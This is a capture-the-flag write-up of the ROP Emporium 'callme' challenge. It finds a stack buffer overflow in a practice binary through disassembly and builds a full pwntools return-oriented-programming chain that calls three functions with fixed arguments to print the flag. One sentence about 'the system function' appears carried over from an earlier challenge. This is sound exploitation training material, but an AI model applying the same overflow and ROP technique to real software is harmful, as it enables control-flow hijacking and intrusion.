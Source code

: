```yaml
---
title: "Return-Oriented Programming - Callme"
date: '2021-12-20'
tags: ['ropemporium','rop', 'pwn']
draft: false
summary: Reliably make consecutive calls to imported functions. Use some new techniques and learn about the Procedure Linkage Table.
layout: PostLayout
---
```


## Introduction

Challenge Description

The goal of this challenge is to understand how  more than one argument is  passed in x64 function. The challenge can be downloaded from the authors website [ropemporium](https://ropemporium.com)

>Reliably make consecutive calls to imported functions.
>Use some new techniques and learn about the Procedure Linkage Table.

The program needs make consecutive calls to a function with three arguments in order to get a correct flag. The challenge description is similar to the split challenge.

>**You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)**

First we check the binary protections enabled on the callme binary, only **NX**( Not Executable) is enabled on the binary as shown below.

```bash
vx@archie:callme$ checksec --file callme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

Open the **callme** binary in radare2 to look for exploitable vulnerability and examine the behavior of the binary. radare2 is a powerful disassembler/debugging tool in Linux, used for examining the  behavior of programs.

![](/static/images/ropemporium/callme_bug.png)

From the above image we use **pdf** command in to do disassembly at a given function. From the image above, the function **pwnme** looks similar to the previous challenges ret2win and split.

From the above code, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. memset is used to overwrite any values that is present in the memory area specified. The memory area we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the address of base pointer in the stack.
![](/static/images/ropemporium/stack.png)


Therefore the next function is read function, which reads for user input and stores in the specified buffer.

```c
ssize_t read(int fd, void *buf, size_t count);
```

From the above disassembled code, we are reading 0x200 bytes from the standard input file descriptor and storing it in our buffer. This means we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

For exploitation stack overflow, we need to fill our buffer, overwrite the rbp register and control the return address.

For building our ropchain, we need to understand the calling conventions of AMD64 ABI. The calling convention passes the arguments to the registers in the following order. RDI, RSI, RDX, RCX, R8 and R9.

Because the system function receives one argument, we need to look for one gadgets that we control the rdi, rsi and rdx registers.

**What are gadgets?**

Gadgets are sequence of instructions the end with ret. because we want to load three argument into registers, we will look for a pop rdi, pop rsi, pop rdx; ret instruction in order to pass an arguments to the callme_one, callme_two, callme_three functions.

The example of the **pop rdi,pop rsi,pop rdx, ret** gadget is shown in image below.

![](/static/images/ropemporium/poprdi_callme.png)

Next step is to determine the address of callme_one, callme_two, callme_three functions. For determining the functions address we use gdb to get the memory addresses.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
(gdb) 
```

Reverse engineer one of the target function in order to understand how the arguments are passed to the function.Because the **callme** binary does PLT relocations of the functions of callme* , we need to disassemble the target shared library **libcallme.so** as shown below.

```nasm
vx@archie:callme$ gdb -q libcallme.so
Reading symbols from libcallme.so...
(No debugging symbols found in libcallme.so)
(gdb) disas callme_one
Dump of assembler code for function callme_one:
   0x000000000000081a <+0>:	push   rbp
   0x000000000000081b <+1>:	mov    rbp,rsp
   0x000000000000081e <+4>:	sub    rsp,0x30
   0x0000000000000822 <+8>:	mov    QWORD PTR [rbp-0x18],rdi
   0x0000000000000826 <+12>:	mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000082a <+16>:	mov    QWORD PTR [rbp-0x28],rdx
   0x000000000000082e <+20>:	movabs rax,0xdeadbeefdeadbeef
   0x0000000000000838 <+30>:	cmp    QWORD PTR [rbp-0x18],rax
   0x000000000000083c <+34>:	jne    0x912 <callme_one+248>
   0x0000000000000842 <+40>:	movabs rax,0xcafebabecafebabe
   0x000000000000084c <+50>:	cmp    QWORD PTR [rbp-0x20],rax
   0x0000000000000850 <+54>:	jne    0x912 <callme_one+248>
   0x0000000000000856 <+60>:	movabs rax,0xd00df00dd00df00d
   0x0000000000000860 <+70>:	cmp    QWORD PTR [rbp-0x28],rax
   0x0000000000000864 <+74>:	jne    0x912 <callme_one+248>
   0x000000000000086a <+80>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000000872 <+88>:	lea    rsi,[rip+0x32f]        # 0xba8
   0x0000000000000879 <+95>:	lea    rdi,[rip+0x32a]        # 0xbaa
   ------
   ------
   0x0000000000000912 <+248>:	lea    rdi,[rip+0x301]        # 0xc1a
   0x0000000000000919 <+255>:	call   0x6c0 <puts@plt>
   0x000000000000091e <+260>:	mov    edi,0x1
   0x0000000000000923 <+265>:	call   0x720 <exit@plt>
   0x0000000000000928 <+270>:	nop
   0x0000000000000929 <+271>:	leave  
   0x000000000000092a <+272>:	ret    
End of assembler dump.
(gdb) 
```

From the disassembly code above, we can we are comparing our arguments in which we are passing to callme_one function. if the string values are not equal to values passed to the rdi, rsi and rdx registers the program exits, otherwise we get a flag.

From previous knowledge of solving other challenges, we need to overwrite the return address with the pop rdi, pop rsi, pop rdx, ret gadget and call each function in a sequential manner.

## Exploit
Fully working rop chain code is as shown below.

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./callme')

pop_rdi_rsi_rdx = pwn.p64(0x0040093c)  #pop rdi; pop rsi; pop rdx; ret gadget
arg1 = pwn.p64(0xdeadbeefdeadbeef)
arg2 = pwn.p64(0xcafebabecafebabe)
arg3 = pwn.p64(0xd00df00dd00df00d)


callme_one_addr = pwn.p64(0x0000000000400720)
callme_two_addr = pwn.p64(0x0000000000400740)
callme_three_addr =pwn.p64(0x00000000004006f0)

#call the callme_one function
callme_one = pop_rdi_rsi_rdx
callme_one += arg1
callme_one += arg2
callme_one += arg3
callme_one += callme_one_addr

#callme_two function
callme_two = pop_rdi_rsi_rdx
callme_two += arg1
callme_two += arg2
callme_two  += arg3
callme_two += callme_two_addr

#callme_three function
callme_three = pop_rdi_rsi_rdx
callme_three += arg1
callme_three += arg2
callme_three += arg3
callme_three += callme_three_addr

payload = b"A" *32   #fill the buffer
payload += b"B" * 8  #overwrite the rbp
payload += callme_one
payload += callme_two
payload += callme_three


io.writeafter('>', payload)

pwn.info(io.clean().decode())

```

Successful execution of the above code, we get rewarded with a correct flag.


![](/static/images/ropemporium/callme-flag.png)
